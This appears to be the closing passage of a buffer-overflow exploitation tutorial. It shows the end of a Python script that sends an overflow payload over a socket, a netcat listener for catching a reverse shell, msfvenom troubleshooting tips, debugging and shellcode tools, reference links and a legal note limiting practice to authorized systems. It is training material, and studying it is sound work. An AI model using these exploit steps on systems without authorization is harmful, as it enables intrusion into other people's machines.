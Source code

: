 ```python
    s.send((buffer + "\r\n"))
    s.close()
    print("[*] Exploit sent successfully!")
except:
    print("[!] Could not connect to the server.")
```

## Gaining a Shell

### Netcat Listener
```bash
nc -nvlp 4444
```

### Common Issues
- **Crash with no shell**: Check for bad characters, ESP alignment
- **Shell dies immediately**: Use EXITFUNC=thread in msfvenom
- **No connection back**: Check firewall rules, IP/port forwarding

## 🛠 Tools

### Debugging
- **Immunity Debugger**: Windows debugger with Mona plugin
- **x64dbg**: Alternative to Immunity
- **GDB**: Linux debugger
- **PEDA**: Python Exploit Development Assistance for GDB

### Pattern Creation
- `pattern_create.rb`: Generate unique patterns
- `pattern_offset.rb`: Find offset from pattern
- Mona: `!mona pattern_create`

### Shellcode Generation
- **msfvenom**: Generate various payloads
- **Shellcode Compiler**: Convert C to shellcode
- **Mona**: `!mona shellcode`

## 📚 Resources
- [FuzzySecurity Buffer Overflow Guide](https://www.fuzzysecurity.com/tutorials/expDev/1.html)
- [Corelan Buffer Overflow Tutorial](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)
- [OSCP Buffer Overflow Cheat Sheet](https://github.com/frizb/OSCP-Buffer-Overflow-Cheatsheet)
- [Offensive Security Buffer Overflow Guide](https://www.offensive-security.com/metasploit-unleashed/buffer-overflow-vulnerabilities/)

## 🎯 Practice
1. Set up a Windows VM with a vulnerable application
2. Practice each step of the buffer overflow process
3. Try different payloads and shellcode
4. Experiment with different memory protections

## ⚠️ Legal Note
Only practice buffer overflows on systems you own or have explicit permission to test. Unauthorized testing is illegal.
